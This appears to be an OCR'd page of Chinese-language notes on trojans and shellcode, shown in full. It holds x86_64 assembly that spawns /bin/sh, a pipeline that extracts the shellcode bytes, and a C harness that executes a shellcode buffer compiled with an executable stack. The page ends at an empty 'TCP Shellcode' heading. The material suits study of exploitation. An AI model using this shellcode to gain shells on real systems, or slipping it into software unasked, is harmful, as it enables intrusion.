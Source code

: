 # 木马

## RAT介绍

## Shellcode

### Linux Shellcode

1.本地Shellcode

x86_64.asm
```asm
section .text
global _start

_start:
    xor rax, rax
    push rax
    mov rbx, 0x68732f6e69622f2f ; //bin/sh
    push rbx
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov al, 59
    syscall
```

```Bash
nasm -f elf64 x86_64.asm -o x86_64.o
ld x86_64.o -o x86_64

objdump -d x86_64 | grep '[0-9a-f]:' | grep -v 'file' | cut -f2 -d: | cut -f1-6 -d' ' | tr -s ' ' | tr '\t' ' ' | sed 's/ $//' | sed 's/ /\\x/g' | paste -d '' -s
```

x86_64.c
```c
char code[] = "Shellcode";

int main(int argc, char **argv) {
  int (*func)();             //函数指针
  func = (int (*)()) code;   //指向Shellcode
  (int)(*func)();            //执行code[]函数
  return 1;
}
```

```Bash
gcc -z execstack -o x86_64_c x86_64.c
```

2.TCP Shellcode
